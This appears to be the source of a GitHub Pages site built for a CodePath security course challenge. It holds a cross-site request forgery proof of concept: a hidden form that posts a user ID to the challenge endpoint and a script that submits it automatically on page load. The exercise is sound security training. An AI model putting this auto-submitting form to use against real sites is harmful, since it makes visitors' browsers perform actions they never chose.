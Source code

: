 # JLPlummer79.github.io

    <form name="csrfform" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method="POST">
      <input type="hidden" name="userId" value="44b8f83b681b706eb2acff708611625dd6a9069cc"/>
      <input type="submit" value="submit"/>
    </form>
    <script> document.csrfform.submit();  </script>
 
